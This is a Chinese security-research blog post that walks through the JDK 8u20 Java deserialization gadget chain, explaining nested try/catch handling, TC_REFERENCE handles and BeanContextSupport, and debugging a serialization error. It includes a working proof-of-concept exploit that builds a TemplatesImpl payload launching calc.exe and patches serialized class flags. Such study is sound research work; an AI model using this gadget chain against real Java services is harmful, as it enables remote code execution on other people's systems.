# 最简单的jdk原生链8u20-先知社区

> **来源**: https://xz.aliyun.com/news/18700  
> **文章ID**: 18700

---

## jdk8u20

> 这里主要依靠的是@1nhann师傅那篇文章，不轻松捏

针对7u21的绕过，主要利用两个特性

* 双层try/catch
* TC\_REFERENCE

### 双层try/catch

直接写看个demo吧，这里我们会发现`里层try`会throw错误，但是这个时候并不会直接中断程序，相当于`里层try/catch`都属于`外层try的代码`，所以这时应该跳转到`外层的catch`，而`外层catch没有throw`时`后面的代码`依然可以`正常`运行

当然这里外层catch是throw的话，这个会返回`bitch2`

还有一点外层catch的捕获类型要包含内层的throw，如果外层是IOException，内层是Exception，这时就会捕获不到，然后报错终端

```
public class error {
    public static void main(String[] args) throws Exception {
        try {
            try {
                int i = 1/0;
            }catch (Exception e){
                throw new Exception("bitch");
            }
        }catch (Exception e){
//        }catch (IOException e){
//            throw new Exception("bitch2");
            ;
        }
        System.out.println("fuck");
    }
}
```

而`AnnotationInvocationHandler#readObject`中是先就执行了`s.defaultReadObject();`再对`type`进行的判断

这样也就是，进行type判断后的代码，我其实并不需要（gadget不用后面的调用），我只需要`AnnotationInvocationHandler对象`而已，所以这里靠`双层try/catch`能让`AnnotationInvocationHandler还原对象`即可，type后面的代码执行不了也无所谓



所以gadget中如果有代码能满足这个一个例子，是不是就能让AnnotationInvocationHandler#readObject不中断程序了呢

```
{
    try{
        os.readObject(); //这个进行AnnotationInvocationHandler#readObject
    }
    catch (Exception e){
            ;            //然后会跳转到这行来，只要不是什么强制退出的代码是不是就能用了呢
        }
    
}
```

然后还有一点要考虑，就是段代码要能被我们`gadget调用`且能`控制os值`为我们AnnotationInvocationHandler序列化数据

这里`java.beans.beancontext.BeanContextSupport` 就刚好满足我们的条件，这个类的 `readObject()` ，调用了 `readChildren(ois);`下图其代码中可以看到catch是满足条件的

```
private synchronized void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {

    synchronized(BeanContext.globalHierarchyLock) {
        ois.defaultReadObject();

        initialize();

        bcsPreDeserializationHook(ois);

        if (serializable > 0 && this.equals(getBeanContextPeer()))
            readChildren(ois);

        deserialize(ois, bcmListeners = new ArrayList(1));
    }
}
```



### TC\_REFERENCE

这个简单说就是，java序列化/反序列化对每个对象产生时都设置了一个`Handler值`(类似索引)，而你第二次调用`同一个对象`时，java会直接通过这个`Handler值`找到第一次生成的对象进行调用

还是通过demo说下吧（这个特性绕过fastjson原生链那个是同一个）懒，demo也是直接copy的，别喷

```
import ysoserial.Serializer;

import java.io.File;
import java.io.FileOutputStream;

public class Test {
    public static void main(String[] args) throws Exception{
        Fuck f = new Fuck();
        Object[] l = {f,f};
        byte[] ser = Serializer.serialize(l);
        writeFile(ser,"1.txt");
    }
    public static void writeFile(byte[] content,String path) throws Exception{
        File file = new File(path);
        FileOutputStream f = new FileOutputStream(file);
        f.write(content);
        f.close();
    }
}
```

就这里不是有2个f么，都调用的同一个对象，这里序列化时，只会给第一个f完整的序列化，而第二个f则存储第一个f的`Handler`，而反序列化时，也是先反序列化第一个f，到第二个f还原对象时，直接把第一个f的对象给他

> 关于`Handler`的一个小知识，`序列化数据`里面 `第一个Handler`值都是 `@Handler - 8257536 (0x7E0000)`，然后每新产生一个Handler，值+1，第二个Handler就为8257537

### 利用思路

然后说了这么多到底怎么利用呢？

还记得7u21我们用的`LinkedHashSet`传了一个值，后面hash碰撞

1. 我们让`BeanContextSupport`包裹`AnnotationInvocationHandler`然后放在第一位//用于还原`AnnotationInvocationHandler对象`
2. TemplatesImpl放第二位，和7u21一样用于hash的碰撞
3. Proxy放第三位，其中`代理类`和我们`BeanContextSupport`包裹的是同一个对象就行了

这样会先反序列化`BeanContextSupport`对象，就会把`AnnotationInvocationHandler`还原了。然后`proxy利用时`直接通过`Handler`调用`还原了的AnnotationInvocationHandler对象`（后面就和7u21一样了

### poc 报错

> 前言：跳跳糖那篇文章很好，但是关于`最后那个报错`问题我觉得光看那篇文章肯定是搞不明白的以及为什么删那两个数据，为什么不能添加呢？为什么删除了数据会不出乱子而可以正常利用呢？其实都没交代（**至少在我的视角**下是这样的，也可能是我菜!^!），然后笔者下面记录的光看肯定也是理解不了，要自己找到对应点调试和对应序列化数据才能体会其中的真意

直接copy的[poc](https://tttang.com/archive/1729/#toc_poc1)，然后也很好理解吧，但是又产生了一个新的报错！！！（为了搞明白这个报错也是花费了一些时间）

```
import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.util.Gadgets;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import ysoserial.payloads.util.Reflections;


import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.LinkedHashSet;

public class Poc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = (TemplatesImpl) Gadgets.createTemplatesImpl("calc.exe");

        InvocationHandler ih = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class,new HashMap<>());
        Reflections.setFieldValue(ih,"type", Templates.class);
        Templates proxy = Gadgets.createProxy(ih,Templates.class);

        BeanContextSupport b = new BeanContextSupport();
        Reflections.setFieldValue(b,"serializable",1);
        HashMap tmpMap = new HashMap<>();
        tmpMap.put(ih,null);
        Reflections.setFieldValue(b,"children",tmpMap);

        LinkedHashSet set = new LinkedHashSet();//这样可以确保先反序列化 templates 再反序列化 proxy
        set.add(b);
        set.add(templates);
        set.add(proxy);

        HashMap hm = new HashMap();
        hm.put("f5a5a608",templates);
        Reflections.setFieldValue(ih,"memberValues",hm);

        byte[] ser = Serializer.serialize(set);
        Deserializer.deserialize(ser);

    }
}
```

然后运行会产生一个因为`readInt()`的报错，而这个报错归功于`AnnotationInvocationHandler`

```
Exception in thread "main" java.io.EOFException
    at java.io.DataInputStream.readInt(DataInputStream.java:392)
    at java.io.ObjectInputStream$BlockDataInputStream.readInt(ObjectInputStream.java:2823)
```

一直调试跟踪到`readBlockHeader()`这里`return -1;`导致的in.read()为-1 ，然后进入throw





跟踪发现你的类重写readObject然后调用`defaultReadObject()`，反序列化就会进入下方代码，而`defaultDataEnd`这个值则跟该类有没有`writeObject()`有关，没有的话这里就会给`defaultDataEnd = true`，然后这就是导致上方报错的根本原因吗？？？No



其实这只是其中一个原因（或者说不是根本原因），如果`BeanContextSupport`存一个对象，就因为这个对象的类没有`writeObject()`就报错，是不是有点太蠢了呀。于是写了个demo

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.util.ReadWrite;
import ysoserial.payloads.util.Reflections;

import java.beans.beancontext.BeanContextSupport;
import java.util.HashMap;
import java.util.LinkedHashSet;

public class serSupport {
    public static void main(String[] args) throws Exception {
        Test2 test = new Test2();
        BeanContextSupport b = new BeanContextSupport();
        Reflections.setFieldValue(b,"serializable",1);
        HashMap tmpMap = new HashMap<>();
        tmpMap.put(test,null);
        Reflections.setFieldValue(b,"children",tmpMap);

        String test2="test2";
        TemplatesImpl templates = new TemplatesImpl();
        LinkedHashSet set = new LinkedHashSet();//这样可以确保先反序列化 templates 再反序列化 proxy
        set.add(b);
        set.add(test2);
        set.add(templates);
        byte[] ser = Serializer.serialize(set);
        ReadWrite.writeFile(ser,"serobj.txt");
        Deserializer.deserialize(ser);
    }
}
```

Test2

```
import ysoserial.Deserializer;
import ysoserial.payloads.util.ReadWrite;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Test2 implements Serializable {
    public static void main(String[] args) throws Exception{
        byte[] bytes = ReadWrite.readFile("ser+.txt");
        Deserializer.deserialize(bytes);

    }

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();
    }
}
```

然后你会发现并没有报错，而且`defaultDataEnd = true`也赋值了的。先看看`序列化数据`吧，用`zkar`看的

我先解释下这段数据位于啥地方，最外层是`java.util.LinkedHashSet`的`[]ClassData`，就是记录LinkedHashSet中`每个属性对应的值`，然后为啥单独拿这个地方来说呢，看3那个位置，这个对我们来说很重要，因为这里是报错产生的位置。

然后没有看过`序列化数据`的师傅建议跟着这个[思维导图](https://github.com/1nhann/java_ser_format)看，还是挺建议看的，把每个值的注释含义以及完整看一个序列化数据基本上就都能看懂了。



然后简单提一点吧`@ObjectAnnotation`在数据里面当时没看懂的，后面看到下图这个才理解，可以理解为序列化数据吧（刚开始看的时候困惑了下，这里也是简单提一下



然后你会看序列化数据后，你肯定还关心一个点`@ClassDescFlags`，可以看到Test2是没有`SC_WRITE_METHOD`这个值，那他为什么`没有报错捏`？

```
@ClassName
  @Length - 5 - 0x00 05
  @Value - Test2 - 0x54 65 73 74 32
@SerialVersionUID - 6232696428067116234 - 0x56 7e fc 61 0b c9 54 ca
@Handler - 8257558
@ClassDescFlags - SC_SERIALIZABLE - 0x02
```

#### 回到正题

我们在`赋值true`后往后跟踪，



发现Test2反序列化完成后，会把`defaultDataEnd = false`重新覆盖掉的。（所以没有`writeObject()`不是罪魁祸首）

> 然后再**反序列化**`null`**，再到反序列化**`count = ois.readInt();`（在结合上面序列化数据分析的）过程是这样。readInt()结束后，也就意味着`BeanContextSupport`反序列化`结束了`，然后到下一个对象了String test2的反序列化了（这里为什么说这个，对后面理解是有用的



debug表达式

```
String.format("0x%02X",(int)bin.in.in.buf[(int)bin.in.in.pos-1])
```

#### AnnotationInvocationHandler throw原因

那`AnnotationInvocationHandler`是什么原因呢自然是跟他readObject报错是有关系的。

报错最后throw的是`IOException的报错`，然后下图2是捕获`ClassNotFoundException`报错的，所以这里不会进入catch，而是\*\*`走完finally（没能执行defaultDataEnd = false）继续跳转到上层throw`\*\*（这个步骤重复了几次），最后才被`BeanContextSupport的catch`捕获`IOException`







于是这里又多了一层理解，及`BeanContextSupport`catch能捕获的error要`包含`AnnotationInvocationHandler的`throw`才行而不只是满足双层try/catch结构



#### 原因小结

所以就是`readObject报错`导致退出了，从而没能让`defaultDataEnd = false`重新覆盖掉。导致readInt()报错。而**添加**`SC_WRITE_METHOD`只是我们利用的手段，不是原因

```
byte[] flagsReplace = new byte[]{0x02,0x00,0x02};
int i = ByteUtil.getSubarrayIndex(ser,flagsReplace);
ser = ByteUtil.deleteAt(ser,i);
ser = ByteUtil.addAtIndex(ser,i, (byte) 0x03);
```

所以这里我们把flags 0x02改成`0x03`（`SC_WRITE_METHOD`值是`0x01`所以这里+1），这里zkar看序列化数据报错了，可以用另一个工具替代下SerializationDumper

```
C:\TOOLS\Java\jdk-17\bin\java.exe -jar SerializationDumper-v1.14.jar -f C:\Users\26618\Desktop\Ljava\jdk7u21-8u20\ser+.txt
```

#### 再次调试

从`defaultDataEnd = true`最后那个`}`那里开始吧，然后发现会一路throw到`BeanContextSupport`catch `continue;`，直接退出了`BeanContextSupport包裹类`的反序列化，直接来到`deserialize`的`ois.readInt();`



